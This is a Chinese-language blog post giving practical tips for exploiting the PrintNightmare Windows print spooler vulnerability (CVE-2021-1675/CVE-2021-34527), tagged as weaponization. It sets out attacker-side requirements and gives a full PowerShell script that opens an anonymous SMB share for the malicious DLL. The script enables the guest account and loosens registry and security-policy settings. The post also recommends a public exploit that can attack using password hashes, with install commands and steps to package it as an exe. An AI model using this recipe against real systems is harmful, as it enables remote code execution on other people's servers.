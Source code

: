 ```yaml
---
title: PrintNightmare 实战利用Tips
date: 2022-11-13 3:34:50
categories: 
- 漏洞
tags:
- 漏洞复现
- PrintNightmare
- CVE-2021-1675
- CVE-2021-34527
- 武器化
---
```

# **概述**

**CVE-2021-1675 / CVE-2021-34527 这两个洞本质上就是一个洞，只是因为修复的问题分配了两个编号。具体的漏洞分析就不赘述了，很早就有人发过，没必要炒冷饭，这里只总结下实际使用时可能出现的问题，以及很多poc中不会提到的细节**

# 复现

## 环境

注意事项：

1.目标机器为域内Windows Server机器时，攻击机必须为同一域内的机器；目标机器为非域环境Windows Server机器时，攻击机器为目标机器可以访问到的另一机器即可

> 加入域后的Windows系统访问外部资源会携带已登录的域用户凭证，所以未加入域且未提前指定凭据的的SMB就无法访问。因此攻击域内机器有此限制

2.攻击机器为Windows Server 2019及更高版本时，需要执行 `Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol`并重启去开启SMBv1，否则有可能出现rpc_s_access_denied的问题，攻击机器为2016及更低版本的系统时，可以直接使用 `Set-SmbServerConfiguration -EnableSMB1Protocol $true`开启SMBv1的支持

### 步骤

1.在攻击机器创建C:\share文件夹，并将dll放入其中

2.执行

```powershell

#修改路径权限，使所有人可读
icacls C:\share\ /T /grant Anonymous` logon:F
icacls C:\share\ /T /grant Everyone:F
#创建名称为share路径为C:\share的SMB共享
New-SmbShare -Path C:\share -Name share -FullAccess 'ANONYMOUS LOGON','Everyone'
#启用guest用户
net user guest /active:yes
#覆盖已有的NullSessionPipes配置
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
#设置可以匿名访问共享
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
#设置Everyone权限包含匿名登录用户
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
#设置任何用户都可以通过网络获取本机的信息
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
#提取本地安全组策略
secedit /export /cfg gp.inf /quiet
#修改组策略中的指定权限
(Get-Content gp.inf) -replace "SeDenyNetworkLogonRight = Guest","SeDenyNetworkLogonRight = " | Set-Content "gp.inf"
#导入本地安全组策略
secedit /configure /db gp.sdb /cfg gp.inf /quiet
#更新本地安全组策略
CMD.EXE /C "gpupdate/force"
#清理文件
CMD.EXE /C "del gp.inf"
CMD.EXE /C "del gp.sdb"
```

注：此脚本修改自[Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer)

3.推荐exp为[CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)，主要优势在于可以使用hash进行攻击，现在越来越难搞到密码了，hash的场景更多

安装：

```cmd
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
pip3 install six pycryptodomex pyasn1
```

之后即可正常使用

如果目标机器不存在python环境，可以打包成exe使用

```cmd
pip3 install pyinstaller
pyinstaller --clean --onefile CVE-2021-1675.py
```
